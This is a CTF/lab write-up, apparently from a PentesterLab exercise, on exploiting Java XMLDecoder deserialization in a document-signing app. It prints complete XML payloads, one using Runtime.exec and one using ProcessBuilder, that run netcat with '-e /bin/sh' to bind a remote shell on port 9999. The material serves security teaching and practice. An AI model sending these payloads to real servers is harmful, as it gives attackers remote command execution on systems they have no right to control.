 # Pentesterlab Serialize Badge/XMLDecoder

> Saikat Karmakar | Sept 5 : 2021

---

## Introduction

This course details the exploitation of an application using XMLDecoder to unserialize arbitrary data. This exercise was built for the NullCon 2016 CTF. The application allows users to sign and verify documents.

## XMLDecoder

XMLDecoder is a Java class that creates object based on a XML message. If a malicious user can get an application to use arbitrary data in a call to the method readObject, she will instantly gain code execution on the server.

## Exploitation of this vulnerability

If we read the signature generated by the server, it's easy to tell that the application is using XMLDecoder:

```xml
<java version="1.7.0_67" class="java.beans.XMLDecoder">
<object class="models.CTFSignature" id="CTFSignature0">
<void class="models.CTFSignature" method="getField">
<string>hash</string>
<void method="set">
<object idref="CTFSignature0"/>
<string>33b6c7bd8cc4d313bf9f7ca2c73851da2b33d67e</string>
</void>
</void>
<void class="models.CTFSignature" method="getField">
<string>sig</string>
<void method="set">
<object idref="CTFSignature0"/>
<string>ad87fbe389784e423b4545b4a1c8a4f873a6295e</string>
</void>
</void>
</object>
</java>
```
We want to start a shell and bind it to a TCP port. The Java code to do this looks like:

```java
	Runtime run = Runtime.getRuntime();
	String[] commands = new String[] { "/usr/bin/nc", "-l","-p", "9999", "-e", "/bin/sh" };
	run.exec(commands );
```
To get code execution, we will need to manually transform this code in the right format.

To do this, we get a Runtime object using:

```xml
<object class="java.lang.Runtime" method="getRuntime">
```

Then we can call the method exec using:

```xml
	<void method="exec">
	<array class="java.lang.String" length="6">
	  <void index="0">
	      <string>/usr/bin/nc</string>
	  </void>
	  <void index="1">
	      <string>-l</string>
	  </void>
	  <void index="2">
	      <string>-p</string>
	  </void>
	  <void index="3">
	      <string>9999</string>
	  </void>
	  <void index="4">
	      <string>-e</string>
	  </void>
	  <void index="5">
	      <string>/bin/sh</string>
	  </void>
	</array>
	</void>
```

If we look at the final payload, the important part is to see how the call to exec is nested inside the object element:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

If we were to use ProcessBuilder instead of `Runtime().exec()`, the payload will look like:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>9999</string>
      </void>
      <void index="4">
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/sh</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```